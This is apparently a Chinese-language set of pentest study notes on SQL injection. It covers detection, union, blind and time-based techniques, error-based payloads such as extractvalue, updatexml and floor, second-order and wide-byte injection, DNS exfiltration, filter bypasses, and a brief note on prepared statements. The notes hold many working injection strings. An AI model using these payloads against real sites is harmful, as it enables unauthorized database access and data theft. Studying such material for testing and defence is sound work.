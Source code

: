 掌握一些目标的信息后，有时候可以直接从那些信息里找到已知的漏洞，没有的话如果是黑盒就只能从这个网站上找着手点。

有数据交互的地方都是着手点。

注入漏洞本质上都是代码拼接。  
注入同时也需要一个输入和输出点，输入是执行你想要的命令，输出是要可以查看到结果，不然没有意义。

- SQL 注入： 

    在网页上输入：1，后端执行的代码是 select xxx,xxx from xxx where id = '1'。    
    如果开发没有做过滤，输入：1' union database() # ,就执行了你想要执行的数据库代码。  
    
    1. 判断是否存在 SQL 注入  

        1. 在原本要输入的参数后加单引号看是否会报错：
            id = 1'，这样执行语句为：  
                1. 数字型：```select xxx from xxx where id = 1'```  
                2. 字符型：```select xxx from xxx where id = '1''```
        2. 语句为真时是否也返回同样页面：
            id = '1' and '1' = '1
        3. 语句为假时页面是否报错：
            id = '1' and '1' = '2
	
        用数字运算判断是否是数字类型：
	    ?id=2-1
        用强制转换判断是否是字符类型：
        ?id=1a
	    
    2. SQL 注入类型  
    
        存在注入就可以用 union 语句进行注入，但是当页面不直接返回结果的时候就可以用『盲注』，如果第一步判断确实存在注入，但是无法执行获取数据的语句，考虑是其他数据库或者注入点在别的关键字后。  
        
        1. 布尔盲注  

            具体场景比如输入 ID 为 1 页面正常返回时，在后面加上一个判断，如果页面还是正常返回表示那个判断是正确的，
            如果页面和 ID 为 1 时不一样则表示这个判断是错误的：1' and length(database())>10 #  
            
        2. 时间盲注  

            如果返回的页面怎么都没有变化，可以试一下时间盲注，通过页面是否按照规定时间响应来确定这个判断是否正确：id=1 and if(length(database())=8,sleep(5),1)，除了 sleep，benchmark 函数也可以达到类似效果。
            
        3. 报错注入  
        
            - 联合查询受限且能返回错误信息的情况下，用报错注入会比盲注快捷方便一点，毕竟盲注需要请求很多次。    
	          原理主要是利用数据库的机制人为制造错误，记一下这4个常用的： 

                1. 数据类型溢出  

                    mysql5.5之前，整形溢出是不会报错的，根据官方文档说明out-of-range-and-overflow，只有版本号大于5.5.5时，才会报错。  
  
                    取反溢出：id=1' union select (!(select * from (select user())x) - \~0),2,3--+    

                    exp 溢出：id=1' union select (exp(~(select * from(select database())x))),2,3--+   

                2. xpath 语法错误    

                    MySQL 5.1.5版本中添加了对XML文档进行查询和修改的函数，分别是ExtractValue()和UpdateXML()，因此在mysql 小于5.1.5中不能用ExtractValue和UpdateXML进行报错注入。 
 
                    这两个函数都是要求第二个参数是符合xpath语法的字符串，如果不满足要求，则会报错，并且将查询结果放在报错信息里。  

                    id=1' and extractvalue(1,concat(0x7e,(select database()),0x7e))--+  

                    id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),1)--+    

                3. floor() 报错注入    

                    id=1' union Select 1,count(*),concat(0x3a,0x3a,(select user()),0x3a,0x3a,floor(rand(0)*2))a from information_schema.columns group by a--+    

                4. 列名重复    

                    id=1'union select 1,2,3 from (select NAME_CONST(version(),1),NAME_CONST(version(),1))x --+    
                    
        4. 二次注入  
        
            输入的内容被 addslashes 添加了反斜杠转义比如：1' -> 1\'，在这里无法造成注入漏洞，但是在数据库里的数据是没有反斜杠的，存到数据库里的依然是 1'，
            所以如果在页面另一个地方取出这个数据就可以造成注入漏洞。  
            
        5. 宽字节注入  
        
            需要数据库编码为 GBK，%df%5c 是一个繁体字，反斜杠编码是 %5c，如果传入的单引号被转义，可以加上 %df' 来注入单引号  
            
        6. cookie 注入、XFF 注入  
        
            注入点改变了而已  
            
        7. base 64 注入  
        
            编码后再注入  
            
        8. DNSlog 注入  
        
    	    在某些无法直接利用漏洞获得回显的情况下，但是目标可以发起DNS请求，这个时候就可以通过这种方式把想获得的数据外带出来。  
	        攻击者提交注入语句，让数据库把需要查询的值和域名拼接起来，然后发生DNS查询，我们只要能获得DNS的日志，就得到了想要的值。  
	        所以我们需要有一个自己的域名，然后在域名商处配置一条NS记录，然后我们在NS服务器上面获取DNS日志即可。  
	
    3. 绕过  
    
        大小写、双写、编码、内联注释 -> 有报错但是无法注入关键字：and、or 等
    
    4. 修复  
    
	    过滤危险字符
	    预编译->占位符
                
    5. 常见数据库特点  
    
        1. MySQL  
        
            1. 5.0 以下没有 information_schema 这个库，无法列表名等，只能暴力跑表名，这个库其中三张表：
                
                1. SCHEMATA：
		            SCHEMA_NAME，记录了数据库库名
                2. TABLES：
                    TABLE_SCHEMA、TABLE_NAME，数据库库名和表名
                3COLUMNS
                     TABLE_SCHEMA、TABLE_NAME、COLUMN_NAME，库名，表名，字段名 
                
            2. MySQL 5.5.53 前的版本没有配置 secure_file_prev，可以直接通过 SQL 语句读写文件，> 5.5.53 版本需要设置 secure_file_prev 为空，为 null 时不可读写。
	
    6. 判断数据库类型  
    
        1. id = x and user>0  
        
            1. ACCESS->错误里有"microsoft jet database"
            2. MSSQL->错误里有"SQL server"  
            
        2. /* 注释判断
	
    7. base 64 注入
    	
